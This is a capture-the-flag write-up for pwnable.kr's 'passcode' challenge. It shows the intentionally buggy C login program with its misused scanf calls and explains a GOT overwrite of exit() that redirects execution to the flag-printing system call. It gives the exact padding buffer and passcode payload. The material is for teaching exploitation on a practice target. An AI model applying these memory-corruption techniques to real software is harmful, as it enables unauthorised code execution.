

# pwnable.kr -- Toddler's Bottle -- passcode

## 1. Challenge
  > Mommy told me to make a passcode based login system.  
  > My initial C code was compiled without any error!  
  > Well, there was some compiler warning, but who cares about that?  
  >   
  > ssh passcode@pwnable.kr -p2222 (pw:guest)  

## 2. Solution
  * Connect target via ssh and see source code:
    ```c
    #include <stdio.h>
    #include <stdlib.h>

    void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
    }

    void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
    }

    int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
    }

    ```

  * Obviously, function `scanf()` is called incorrectly.

  * So we must make sure that `passcode1` and `passcode2` should be a valid address or the program would crash. Or we do not input number, so addresses that are equal to `passcode1` or `passcode2` would not be accessed to.

  * But what does decide `passcode1` and `passcode2`? Well, it's `char name[100]` in function `welcome()`. Let's see the stack layout of function `welcome()` and `login()`:

    

  * We can find we could affect `passcode1` but could not affect `passcode2`. Because in function `welcome()` `scanf()` only accepts 100 characters.

  * However, there still one way out. Actually, when program access to a invalid address, it would raise an exception and then calls `exit()` to terminate.

  * So, we can change the offset of function `exit()` at Global Offset Table(GOT) to 0x080485e3.
    ```asm
    @0x080485e3
    mov     dword ptr [esp], offset command ; "/bin/cat flag"
    call    _system
    ```

  * so you can build exploit buffer:
    ```python
    exp_buf = b'a' * 96 + b'\x18\xa0\x04\x08'
    ```
    When asked to type your name, just send it.

  * And when asked to type `passcode1`, send:
    ```python
    payload = str(0x080485e3)
    ```
    to change the offset of function `exit()` to shell entry(0x080485e3).

  * Finally, you can get the flag.
